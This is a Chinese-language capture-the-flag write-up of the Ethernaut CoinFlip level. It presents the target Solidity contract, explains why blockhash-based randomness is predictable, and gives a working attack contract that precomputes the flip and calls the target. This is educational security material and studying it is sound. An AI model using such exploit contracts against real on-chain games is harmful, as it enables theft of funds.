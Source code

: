 #   Level 3 CoinFlip
實例地址：`0x7F6867D822AF8c2173C9829110126e9a5Dd8FD5d`

## 題目說明
這是一個擲銅板的遊戲。
你需要連續地猜對擲出來的結果。為了完成這一關，你需要利用你的超能力，然後連續猜對十次。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

##  POC
此合約使用 `block.number` 來產生隨機數，可以用攻擊合約先計算隨機數，再透過攻擊合約呼叫此合約，及可預測硬幣正反面。因為一筆外部交易 可能會觸發多個內部交易，而這些內部交易的 block.number 都會與原始交易相同。

觸發攻擊合約 `attack()` 十次可以達成。
### 攻擊合約
```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface CoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract Attack {
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    address public target;

    constructor(address _target) {
        target = _target;
    }

    function attack() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        CoinFlip(target).flip(side);
    }
}
```
